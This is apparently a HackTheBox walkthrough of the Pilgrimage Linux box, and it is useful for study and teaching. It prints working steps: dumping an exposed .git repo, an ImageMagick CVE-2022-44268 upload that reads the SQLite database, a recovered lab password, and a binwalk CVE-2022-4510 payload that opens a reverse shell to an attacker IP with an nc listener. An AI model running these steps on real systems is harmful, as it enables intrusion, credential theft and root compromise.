

<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Debian 11), **Difficulty:** Easy, **Released:** 2023-06-24, **IP:** `10.10.11.219` , `pilgrimage.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Exposed **`.git`** on the web root. Dump it and read the source for the "image shrinking" service.
2. The service resizes uploads with a **bundled ImageMagick 7.1.0-49 beta**, vulnerable to **CVE-2022-44268**. A crafted PNG makes the resizer embed the contents of an arbitrary file, hex encoded, into the output image's metadata. Read `/etc/passwd`, then the SQLite DB at `/var/db/pilgrimage`, and recover **`emily`**'s password. SSH in.
3. Root runs `malwarescan.sh`, which watches `/var/www/pilgrimage/shrunk/` with `inotifywait` and runs **binwalk 2.3.2** on every new file. binwalk 2.3.2 is vulnerable to **CVE-2022-4510**, a path traversal in the PFS extractor that yields code execution. Upload a malicious file, get a shell as root.

</div>

<div class="callout callout-key">

**Credentials and Flags**


| Where | Value |
| --- | --- |
| `emily` (from the SQLite `users` table) | `abigchonkyboi123` |
| `user.txt` | `/home/emily/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Pilgrimage is a two-CVE box where both CVEs come from **reading the source you dumped from `.git`**. The repo tells you the exact ImageMagick build (it is checked in as a static binary), which points you at CVE-2022-44268, and it contains `malwarescan.sh` which tells you root is piping your uploads through binwalk. The ImageMagick bug is a lovely primitive: it is not RCE, it is an **arbitrary file read that comes back inside the image you get handed**. The privesc is a supply-chain style bug in a security tool (binwalk) being used defensively.

Related `.git` boxes: [Cat](/writeups/hackthebox/linux/medium/cat/), [Dog](/writeups/hackthebox/linux/easy/dog/). Related ImageMagick: [Titanic](/writeups/hackthebox/linux/easy/titanic/) (a different ImageMagick CVE). Related "root watches a directory and runs a tool on new files": [Titanic](/writeups/hackthebox/linux/easy/titanic/), [Inject](/writeups/hackthebox/linux/easy/inject/).

---

## Full Walkthrough

### Reconnaissance

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1
80/tcp open  http    nginx 1.18.0
| http-git:
|   10.10.11.219:80/.git/
|_    Last commit message: Pilgrimage image shrinking service initial commit.
|_http-title: Pilgrimage - Shrink Your Images
```

nmap flags `/.git/` straight away.

### Source disclosure

```bash
git-dumper http://pilgrimage.htb/ ./pilgrimage
```

The repo ships a static **`magick`** binary. Check its version:

```console
$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911
```



`index.php` shows uploads are run through `magick <upload> -resize 50% <output>` and the result is stored under `shrunk/` with a random name, then a row is written to a SQLite database.

<div class="callout callout-note">

**CVE-2022-44268, ImageMagick arbitrary file read**

When ImageMagick processes a PNG that contains a `tEXt` chunk with the keyword `profile` set to a filename (for example `/etc/passwd`), the encoder for the *output* image reads that file and embeds its contents, hex encoded, as a `Raw profile type` block in the new image's metadata. So you upload a crafted PNG, download the shrunk copy, and `identify -verbose` (or `exiftool`) pulls the hex blob back out. It is a read primitive only, no code execution, but on this box reading one SQLite file is enough.

</div>

### Foothold, read the database

```bash
# build the malicious PNG (public PoC, e.g. voidz0r/CVE-2022-44268)
cargo run "/var/db/pilgrimage"        # -> exploit.png
curl -F 'toConvert=@exploit.png' http://pilgrimage.htb/
# download the shrunk result, then:
identify -verbose shrunk_xxxx.png | grep -A2 'Raw profile type'
python3 -c "print(bytes.fromhex('...'.replace('\n','')))"
```

The `users` table has `emily : abigchonkyboi123`.

```bash
ssh emily@pilgrimage.htb        # abigchonkyboi123
```

### Privilege Escalation, binwalk CVE-2022-4510

`ps` / `pspy` shows root running:

```bash
#!/bin/bash
# /usr/sbin/malwarescan.sh
inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read -r dir action file; do
  binwalk -e "/var/www/pilgrimage.htb/shrunk/$file" > /dev/null
  # ... deletes the file if binwalk finds anything "bad"
done
```

```console
emily@pilgrimage:~$ binwalk | head -1
Binwalk v2.3.2
```

<div class="callout callout-note">

**CVE-2022-4510, binwalk path traversal to RCE**

binwalk 2.1.2b to 2.3.2 has a directory traversal in the **PFS filesystem extractor**. A file whose embedded PFS entries contain `../` path components is written outside the extraction directory when binwalk runs with `-e` (which `malwarescan.sh` does). By crafting a payload that writes a `.plugin` file into `~/.config/binwalk/plugins/`, the next binwalk run imports and executes your Python as the user running binwalk, which is **root** here. The Metasploit module `linux/local/binwalk_extract_dir_traversal` and public PoCs generate the malicious file for you.

</div>

```bash
# generate the payload (public PoC) pointing a reverse shell at your box
python3 binwalk_exploit.py rev.png 10.10.14.5 9001
# drop it where inotifywait sees it
cp rev.png /var/www/pilgrimage.htb/shrunk/
```

`nc -lvnp 9001` catches a shell as root.

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/emily/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons and Takeaways

- **Never serve `.git/`.** The whole box unravels from the source, including the exact vulnerable ImageMagick build.
- **Do not bundle third party binaries into a repo** and forget them. Pin dependencies through a package manager so they get patched.
- **Patch ImageMagick** (CVE-2022-44268) and disable the coders/delegates you do not need via `policy.xml`.
- **Security tools are software too.** Running binwalk `-e` as root on attacker supplied files is the actual vulnerability here. Extract untrusted files as an unprivileged, sandboxed user.
- **`inotifywait` plus a privileged handler** is a common privesc pattern. Whatever the handler runs must be safe against hostile input.

---

## Related Writeups

- **`.git` disclosure and source review:** [Cat](/writeups/hackthebox/linux/medium/cat/), [Dog](/writeups/hackthebox/linux/easy/dog/)
- **ImageMagick abuse:** [Titanic](/writeups/hackthebox/linux/easy/titanic/)
- **Root processes a directory of attacker files:** [Titanic](/writeups/hackthebox/linux/easy/titanic/), [Inject](/writeups/hackthebox/linux/easy/inject/)
- **Read a SQLite DB to get creds:** [Cat](/writeups/hackthebox/linux/medium/cat/), [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/)

## References

- CVE-2022-44268 (ImageMagick) <https://www.metabaseq.com/imagemagick-zero-days/>
- CVE-2022-4510 (binwalk) <https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/>
- git-dumper <https://github.com/arthaud/git-dumper>
